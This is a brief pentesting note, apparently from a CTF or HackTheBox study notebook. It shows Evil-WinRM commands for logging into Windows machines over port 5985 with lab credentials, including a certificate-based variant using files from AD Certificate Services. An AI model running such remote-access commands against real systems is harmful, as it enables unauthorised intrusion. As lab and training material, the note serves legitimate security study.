 Evil-WinRM to access via port tcp-5985 into a system:
```powershell
evil-winrm -i 10.10.11.158 -u 'nikk37' -p 'get_dem_girls2@yahoo.com'
```
Examples:
[[StreamIO#^963d06]]
[[StreamIO#^bef5fd]]
[[Forest#^b22389]]

### Active Directory Certificate Services
#Note We can extract the .cer and the .key from a .pfx as per the [[Legacy PFX certificate]] guide.
If we get a .cer certificate from the /certsrv endpoint on the DC website we can access to it as follows, for more info go to [[WinRM Certificate (password-less) based authentication]]:
```bash
evil-winrm -S -c certnew.cer -k amanda.key -i 10.10.10.103 -u 'amanda' -p 'Ashare1972'
```
Examples:
[Sizzle](https://shuciran.github.io/posts/Sizzle/#fnref:evil-winrm)
